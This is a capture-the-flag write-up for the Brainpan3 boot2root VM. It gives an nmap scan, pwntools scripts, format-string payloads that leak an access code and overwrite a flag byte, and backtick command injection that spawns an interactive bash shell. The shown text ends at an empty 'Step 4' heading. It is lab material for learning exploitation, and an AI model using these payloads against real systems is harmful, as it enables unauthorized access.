

Brainpan3 is a typical boot2root VM that we boot and attempt to gain root access. This one is a bit long, but I hope it is entertaining and informative. Strap in!

## Recon

```
nmap -p- 192.168.224.0/24 -Pn --open -T5
```

```
-p- : Poke all 65536 ports
-Pn : Assume each IP address is alive
--open : Only show open ports
-T5 : Scan at the speed of Buzz Lightgear
```

## Step 1

Upon finding port `1337`, we can start having fun with Brainpan. We can setup a small script to easily interact with the service:

```
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git

HOST = '192.168.224.154'
PORT = 1337

r = remote(HOST, PORT)

r.interactive()
```

Our first image of Brainpan3 is shown below:
```
  __ )    _ \      \    _ _|   \  |   _ \    \      \  |     _ _| _ _| _ _|
  __ \   |   |    _ \     |     \ |  |   |  _ \      \ |       |    |    | 
  |   |  __ <    ___ \    |   |\  |  ___/  ___ \   |\  |       |    |    | 
 ____/  _| \_\ _/    _\ ___| _| \_| _|   _/    _\ _| \_|     ___| ___| ___|

                                                            by superkojiman


AUTHORIZED PERSONNEL ONLY
PLEASE ENTER THE 4-DIGIT CODE SHOWN ON YOUR ACCESS TOKEN
A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS

ACCESS CODE: 
```

Even though the text says "A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS", the initial thought was, 'Oh cool, 4 digits, Go Go Gadget Brute Force!'. Turns out, the text wasn't lieing. The number definitely did change after 3 attempts. To Plan B!

Given a login prompt, we could try to overflow the input buffer in an attempt for a stack overflow. The problem with this approach would be that we don't have the binary to do analysis after the overflow. After a nice, hot shower (where all the CTF solutions are generated), the exploitation vector that makes the most sense is looking at format strings.

Let's give some format strings a go!

```
ACCESS CODE: %x.%x.%x.%x.%x.
ERROR #4: WHAT IS THIS, AMATEUR HOUR?
```

Herm.. are they filtering on `%x`? Let's try a different format string.

```
ACCESS CODE: %p.%p.%p.%p.
ERROR #1: INVALID ACCESS CODE: 0xbfcf8b1c.(nil).0x2691.0xbfcf8b1c.
```

Bingo! So we now know that this input is vulnerable to malicious format strings. Since we are looking for a 4 digit access code, we can assume it is probably stored on the stack. Let's try to use `%d`.

```
ACCESS CODE: %d.%d.%d.%d.%d.%d.
ERROR #1: INVALID ACCESS CODE: -1076917476.0.6970.-1076917476.0.10.
```

Ah! What is in the third slot here: `6970`. Let's try that access code:

```
ACCESS CODE: 6970

--------------------------------------------------------------
SESSION: ID-6439
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
  --------------------------------------------------------------


  1  - CREATE REPORT
  2  - VIEW CODE REPOSITORY
  3  - UPDATE SESSION NAME
  4  - SHELL
  5  - LOG OFF

  ENTER COMMAND: 
```

And we are in! Before we proceed further, let's modify our script to automatically get past the access code:

* Send `%d.%d.%d.%d.%d.%d`
* Extract the third element (access code)
* Submit the access code for login

From here, we'll keep adding snippets of code to the script, but for the sake of brevity of the writeup, only the new code will be shown. Our result is below:

```
# r - Our socket object

###
# Get access code
###
r.sendline('%d.' * 3 + 'A' * 80)
r.recvuntil("ACCESS CODE: ")
output = r.recv()
code = output.split('.')[2]

log.info("Code identified: {}".format(code))

r.sendline(code)

r.interactive()
```

## Step 2

Now that we are logged in, we can do a bit more exploration. Oh look, we are already given a shell:

```
ENTER COMMAND: 4
SELECTED: 4
reynard@brainpan3 $ ls
total 0
-rw-rw-r-- 1 reynard reynard 22 May 10 22:26 .flag
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 never
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 gonna
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 give
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 you
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 up
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 never
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 gonna
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 let
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 you
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 down
```

Of course, superkojiman would rick roll hackers. Thanks!

We can try to overflow this shell script/binary:

```
reynard@brainpan3 $ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: ./shell terminated
```

No dice. Canary is in the way (supposedly).

After more exploration of trying the typical recon commands `whoami`, `uname -a`, ect, we can come to the conclusion that this shell is useless.

Let's try the other options:

```
ENTER COMMAND: 1
SELECTED: 1
REPORT MODE IS DISABLED IN THIS BUILD
```

Looks like report mode is currently disabled. We could try to turn the report on, but how?

### And now for something completely different

```
ENTER COMMAND: 2
SELECTED: 2

CODE REPOSITORY IS ALREADY ENABLED
```

Turning on the code repo enabled a web service on port 8080, which also has a `/repo` directory containing the binaries used during this step:



Spending a little time with the binaries was interesting to see how they worked, but ultimately, nothing useful came from it. I'm not sure if this was a red herring or if there was another vulnerability here.

### Back to your normal programming

The last functionality that we haven't looked at yet is the `Update Session Name` function:

```
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: thebarbershopper 
--------------------------------------------------------------
SESSION: thebarbershopper

  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

Interesting, can we replicate the string format vulnerability of the access code with the session name?

```
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: %p.%p.%p.%p.%p.
--------------------------------------------------------------
SESSION: 0xbfcf89cc.0x104.0x252e7025.0x70252e70.0x2e70252e.

  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

Why yes, yes we can. Let's dump a good portion of the stack and see what we have. We'll start by sending 70 `%x.`. Note, we add the period at the end only to allow easier splitting of our resulting string. This allows for easier correlation between the individual format strings and their output.

```
ENTER COMMAND: SELECTED: 3
ENTER NEW SESSION NAME: --------------------------------------------------------------
SESSION: bf9a747c.104.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.ff0a2e78.b77a3c20.bf9a75cc.0.b77a3000.b77a3ac0.b77a4898.b75f7940.b76690b5.b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.
\xff <z\xb7�u\x9a\xbf
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

We are looking at a lot of repeating values here. 

```
>>> from pwn import *
>>> unhex('252e7825')[::-1]
'%x.%'
```

Looks like those repeating characters are our format string buffer. There is one segment in this format string that is interesting:

```
b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.
>>> for item in 'b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.'.split('.'):
        unhex(item)

'\xb7z:\xc0'
'Y'
'N'
'Y'
'\xb7z8\xa0'
'\xb7z0\x00'
'\xb7z:\xc0'
```

The `Y, N, Y` looks very similar to the `Y, N, Y` of the dialog shown from the command menu. Let's grab where in the format string the `4e` is in order to know how much to overflow.

```
# Update Session name
r.sendline('3')

# Send format string
shellcode = '%x.' * 70

# Wipe the input buffer so we aren't reading old data
r.clean()
r.sendline(shellcode)
r.recvuntil("SESSION: ")

# Grab the format string output
session_name = r.recvuntil('\n').split('.')

# Isolate the 'N' (0x4e) in our format string
n_index = session_name.index('4e')
log.info("Report 'N' at offset {}".format(n_index))

```

Could we try and use our input buffer to overflow the `N` for report to a `Y` to enable the report? After a few tries of different lengths, we succeed:

```
n_index = session_name.index('4e')
# Resend a buffer of 'Y's up to the location of the 'N'
r.sendline('3')
r.sendline('Y' * (4*(n_index-2) + 1) )
```

```
SESSION: YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
  AUTH   [Y]    REPORT [Y]    MENU   [Y]  
  --------------------------------------------------------------


  1  - CREATE REPORT
  2  - VIEW CODE REPOSITORY
  3  - UPDATE SESSION NAME
  4  - SHELL
  5  - LOG OFF

  ENTER COMMAND: $  
```

Notice the Report now has `[Y]`! Winning.. Let's see what we can do with reports.

## Step 3

```
ENTER COMMAND: $ 1
SELECTED: 1

ENTER REPORT, END WITH NEW LINE:

$ this is my first report!

REPORT [this is my first report!@
SENDING TO REPORT MODULE

[+] WRITING REPORT TO /home/anansi/REPORTS/20150910050336.rep
[+] DATA SUCCESSFULLY ENCRYPTED
[+] DATA SUCCESSFULLY RECORDED
[+] RECORDED [\xbf\xa3\xa2\xb8����\xa6\xb2����\xb8\xbf����\xa4\xb9\xbf���]
```

From the text, it appears that our report is encrypted in some fashion and is stored at `/home/anansi/REPORTS/20150910050336.rep`. The binary for handing reporting is found in the `/repo` directory, so analyzing that will probably be of use, but we can try some low hanging fruit first before diving into the reverse engineering.

After a few fuzzing attempts, the following is shown:

```
$ `notacommand`

REPORT [`notacommand`rst report!@ing]
SENDING TO REPORT MODULE

sh: 1: notacommand: not found
```

Que wha?! We are given a command not found error message when trying to execute commands via back ticks. Could this mean command execution?

```
$ `whoami`

REPORT [`whoami`mand`rst report!@```]
SENDING TO REPORT MODULE

sh: 1: Syntax error: EOF in backquote substitution
```

Hmm.. we are given error messages. Could we receive command output by piping to stderr?

```
$ `whoami >&2`

REPORT [`whoami >&2`4]
SENDING TO REPORT MODULE

anansi
```

Nice! Now the fun part, let's try to get a shell. 

```
ENTER COMMAND: $ 1

ENTER REPORT, END WITH NEW LINE:

`/bin/bash -i >&2`

REPORT [`/bin/bash -i >&2`]
SENDING TO REPORT MODULE

bash: cannot set terminal process group (5677): Inappropriate ioctl for device
bash: no job control in this shell
anansi@brainpan3:/$ whoami
anansi
anansi@brainpan3:/$ uname -a
Linux brainpan3 3.16.0-41-generic #55~14.04.1-Ubuntu SMP Sun Jun 14 18:44:35 UTC 2015 i686 i686 i686 GNU/Linux
anansi@brainpan3:/$  
```

And we have a user shell! As normal, let's modify our exploit script to retrieve a shell for us automagically:

```
###
# Get user shell
###

for command in ['uname -a', 'whoami', 'id']:
    r.clean()
    r.sendline('1')
    r.sendline('$({} >&2)'.format(command))

    r.recvuntil("SENDING TO REPORT MODULE")
    output = r.recvuntil('[+]').split('\n')[2]
    log.success("{} - {}".format(command, output))

r.clean()
r.sendline('1')
r.sendline('$(/bin/bash -i >&2)')

r.interactive()
```

## Step 4

